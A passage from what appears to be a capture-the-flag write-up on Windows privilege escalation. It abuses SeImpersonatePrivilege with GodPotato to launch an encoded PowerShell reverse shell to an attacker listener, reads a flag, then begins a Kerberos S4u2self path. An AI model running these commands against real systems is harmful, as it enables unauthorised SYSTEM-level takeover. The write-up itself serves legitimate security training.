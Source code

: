 ```
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The [SeImpersonatePrivilege](https://www.plesk.com/kb/support/microsoft-windows-seimpersonateprivilege-local-privilege-escalation/) privilege is a well-documented local privilege escalation vector, and can be exploited with various [Potato](https://ohpe.it/juicy-potato/) variants. In this case, we can use [GodPotato](https://github.com/BeichenDream/GodPotato) to obtain a reverse shell as `NT AUTHORITY\SYSTEM`:

```
PS C:\windows\tasks> .\GodPotato.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYg[....snip....AEMAbABvAHMAZQAoACkA"
```

Similar to before, this reverse shell points to our attacking machine, on port `9443`:

```
~$ nc -lnvp 8443                                                               
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60010

PS C:\windows\tasks> whoami
nt authority\system
```

And finally, we can grab the `flag5.txt` file:

```
PS C:\Windows\Tasks> cat C:\Users\Administrator\Desktop\flag5.txt
RV{s1LVeR_tICk3Ts_aRe_oFteN_0V3Rl0oK3d_fOR_PRIv!13ge_3ScALaTION_:)_87b96b7fefeaa679845950e6042e2a8c}
```

## Path 2: S4u2self

An alternative to forging an arbitrary service ticket is to use the [S4u2self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) extension of the `Kerberos` protocol. This extension `allows a service to obtain a service ticket to itself on behalf of a user.`.

This allows the `svc_sql` user to request for a service ticket to the `MSSQLSvc/sql01.antennae.rv` SPN on behalf of any user in the domain - including privileged users like `Administrator`. This is possible because `svc_sql` has the `MSSQLSvc/sql01.antennae.rv` SPN registered to it.
